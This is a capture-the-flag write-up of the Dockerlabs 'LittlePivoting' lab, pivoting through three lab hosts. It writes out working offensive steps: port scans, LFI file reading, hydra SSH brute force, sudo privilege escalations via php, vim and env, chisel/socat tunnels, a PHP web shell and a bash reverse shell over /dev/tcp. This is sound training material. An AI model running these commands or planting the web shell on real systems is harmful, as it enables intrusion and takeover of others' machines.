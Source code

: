 # LittlePivoting


`Creator`:  [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

`Page`: [Dockerlabs](https://dockerlabs.es/)

---

![image](https://github.com/user-attachments/assets/bb0e3da1-16cb-45b5-8aaa-83ceb2d81ed6)


---

- I start scaning the open ports
    
    ```bash
    nmap -p- -vvv -sS --min-rate 5000 -Pn 10.10.10.2 -oG scan
    ```
    
    ![image 1](https://github.com/user-attachments/assets/c9f4e387-d513-4475-98cc-5794f733def5)

    

- Scanning open ports
    
    ```bash
    nmap -p22,80 -sCV 10.10.10.2 -oN ports
    ```
    
    ![image 2](https://github.com/user-attachments/assets/34723c1b-b745-4d0e-92ac-650f70fb379d)

    

- We enter the website
    
    ![image 3](https://github.com/user-attachments/assets/b009561c-4997-46aa-b0c2-17fe5f47c86a)

    

- We check the technologies being used by the web application
    
    ```bash
    whatweb 10.10.10.2
    ```
    
    ![image 4](https://github.com/user-attachments/assets/7362722a-a7fd-4e07-96ea-feb25c851cdd)

    

- We perform fuzzing to try to find directories
    
    ```bash
    gobuster dir -u http://10.10.10.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
    ```
    
    ![image 5](https://github.com/user-attachments/assets/36b52e26-f5c6-4b9b-b4d9-fbffdc4caf4f)

    

- I access the website `http://10.10.10.2/shop/`
    
    ![image 6](https://github.com/user-attachments/assets/b58ca28b-f2b5-4f14-9e14-935183aa164b)

    

- It seems that the web page has a parameter with which I can try to load a local file (`LFI`)
    
    ![image 7](https://github.com/user-attachments/assets/8ef7b4c8-659b-47c1-a721-ed1dd5178487)

    

- With the absolute path it does not load anything. When trying with relative paths I managed to load files
    
    ![image 8](https://github.com/user-attachments/assets/562dbb83-78fc-4ed1-a847-f1b12a875862)

    

- I discovered two users, `seller` and `manchi`. I make a brute force attack to try to connect via ssh with one of these users
- With the user `seller` I could not get his password but I could with `manchi`
    
    ```bash
    hydra -l manchi -P /usr/share/wordlist/rockyou.txt ssh://10.10.10.2
    ```
    
    ![image 9](https://github.com/user-attachments/assets/de2f3f21-3099-4bf1-93bb-a41dc5a6d499)

    

- I try to connected via ssh and after searching for a while for ways to escalate our privileges but I don´t found nothing. I tried to brute force with the user `seller`
    [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce)
    
    ```bash
    ./Linux-Su-Force.sh seller rockyou.txt
    ```
    
    ![image 10](https://github.com/user-attachments/assets/31421030-7368-475e-ada8-846fb73aeb85)

    

- I connect as seller and list the commands that I can execute as sudo without providing a password
    
    ```bash
    sudo -l
    ```
    
    ![image 11](https://github.com/user-attachments/assets/ad8bd9d9-3ca3-4560-8018-7146e3b93ef6)

    

- I search in gtfobins for ways to escalate privileges with sudo php and become root
    
    [GTFOBins](https://gtfobins.github.io/)
    
    ```bash
    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    ```
    
    ![image 12](https://github.com/user-attachments/assets/0cf33d8f-c7df-4e6d-866a-19ad175f50a5)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 20.20.20.0/24
    
    ```bash
    #!/bin/bash
    
    for i in $(seq 1 254); do
    	for port in 21 22 80 443 445 8080; do
    		timeout 1 bash -c "echo '' > /dev/tcp/20.20.20.$i/$port" &>/dev/null && echo "[+] Host 20.20.20.$i - PORT $port - OPEN" &
    	done
    done; wait
    
    ```
    
    ![image 13](https://github.com/user-attachments/assets/e32bed7a-3135-41bb-bc93-99ffc610c73c)

    

- I create a tunnel between the two machines using `chisel`
    
    ```bash
    #Execute this from your machine
    ./chisel server --reverse -p 1234
    
    #Execute this from the 10.10.10.2 machine
    ./chisel client 10.10.10.1:1234 R:1080:socks
    ```
    
    ![image 14](https://github.com/user-attachments/assets/237e7876-f4ef-434a-9471-5a057fa3c94a)

    
    ![image 15](https://github.com/user-attachments/assets/7d3e68cd-f442-48c4-bf18-8e03bfd25e23)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 1080
        ```
        

- As we see that you have a web service on port 80, we perform an enumeration and find a secret.php file.
    
    ```bash
    gobuster dir -u http://20.20.20.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080 -t 5 -x .php,.txt
    ```
    
    ![image 16](https://github.com/user-attachments/assets/4f1e30b3-f8cd-4401-a107-83760a14c036)

    

- We access the page defining a proxy and see a potential user
    
    ![image 17](https://github.com/user-attachments/assets/2d350fdb-8228-4fe2-85db-df1b3ea3162b)

    
    ![image 18](https://github.com/user-attachments/assets/e2c78509-a865-49f1-abd7-d74a2ff470e2)

    

- We make a brute force attack to try to connect via ssh
    
    ```bash
    proxychains4 hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://20.20.20.3 2>/dev/null
    ```
    
    ![image 19](https://github.com/user-attachments/assets/41eb500e-8443-4b5b-b68d-2741aa4304bd)

    

- I connect via ssh and see what commands you can execute as sudo without providing a password
    
    ![image 20](https://github.com/user-attachments/assets/8fe80456-9bba-4e31-85b0-9a24db2e11d3)

    

- I search in gtfobins for ways to escalate privileges with sudo vim and become root
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![image 21](https://github.com/user-attachments/assets/38ae33ba-b7c3-4c56-b1ac-9457a5708bce)

    

- I find out which ips this computer has 'hostname -I'. I apply a reconnaissance to see what other hosts are on network 30.30.30.0/24
    
    ![image 22](https://github.com/user-attachments/assets/9c37d0a7-6c05-40a8-8bfc-6eeff3f1f009)

    

- I create a tunnel between the three machines using `chisel` and `socat`
    
    ```bash
    ./chisel client 20.20.20.2:4237 R:8888:socks
    
    ./socat TCP-LISTEN:4237,fork TCP:10.10.10.1:1234
    ```
    
    ![image 23](https://github.com/user-attachments/assets/195ff51e-328f-4c55-8e67-6d8ab8f4164a)

    
    ![image 24](https://github.com/user-attachments/assets/628c4d59-3a5e-470d-9dd7-e302ffc31b80)

    
    - Add in `/etc/proxychains4.conf` the following line
        
        ```bash
        socks5 127.0.0.1 8888
        ```
        

- I scanned the 5000 most common ports and found port 80 open.
    
    ```bash
    nmap -sT -Pn --top-ports 5000 -open- --min-rate 5000 -vvv -n 30.30.30.3 2>/dev/null
    ```
    
    ![image 25](https://github.com/user-attachments/assets/df89e748-4ca2-4bd3-b383-b77690206ff5)

    

- I try to upload a php file with which I can execute commands (`RCE`)
    
    ![image 26](https://github.com/user-attachments/assets/7d181ac8-982a-41b5-bbef-4c249685fd2d)

    
    ![image 27](https://github.com/user-attachments/assets/3d56580d-0db1-4e6c-8f36-4bd82d8e8adc)

    

```bash
<?php 
	system($_GET['cmd']);
?>
```

- I perform fuzzing to find directories
    
    ```bash
    gobuster dir -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --proxy socks5://127.0.0.1:8888
    ```
    
    ![image 28](https://github.com/user-attachments/assets/df947804-acd2-46e2-b2e3-76e7d06aed88)

    

- I find where the file we have just uploaded is located and see that I can execute the following commands
    
    ![image 29](https://github.com/user-attachments/assets/732741c8-3ba3-453a-bd04-5a70303223b2)

    

- I create a tunnel so that when doing a reverse shell I get to our computer.
    
    ```bash
    #Victim 1 (10.10.10.2)
    ./socat TCP-LISTEN:4342,fork TCP:10.10.10.1:4341
    
    #Victim 2 (20.20.20.3)
    ./socat TCP-LISTEN:4343,fork TCP:20.20.20.2:4342
    ```
    
    ![image 30](https://github.com/user-attachments/assets/c05cf7f9-43e7-4533-b507-6abf987ba7b1)

    
    ![image 31](https://github.com/user-attachments/assets/3e4b6f93-d5b7-4bfd-b8b4-54b5dad313fe)

    

- I make the request to create the reverse shell
    
    ```bash
    http://30.30.30.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/30.30.30.2/4343 0>%261"
    ```

    ![image 32](https://github.com/user-attachments/assets/7cfc766d-20e6-4f4d-81d3-34cb5642c072)

    

- I connect as www-data and list the commands that I can execute as sudo without providing a password
    
    ![image 33](https://github.com/user-attachments/assets/2187889a-e248-47bf-93e8-deec77345c22)

    

- I search in gtfobins for ways to escalate privileges with sudo env and become root
    
    ```bash
    sudo env /bin/sh
    ```
    
    ![image 34](https://github.com/user-attachments/assets/4c8aacb3-4727-4f7d-84d0-ffe634a99fd7)
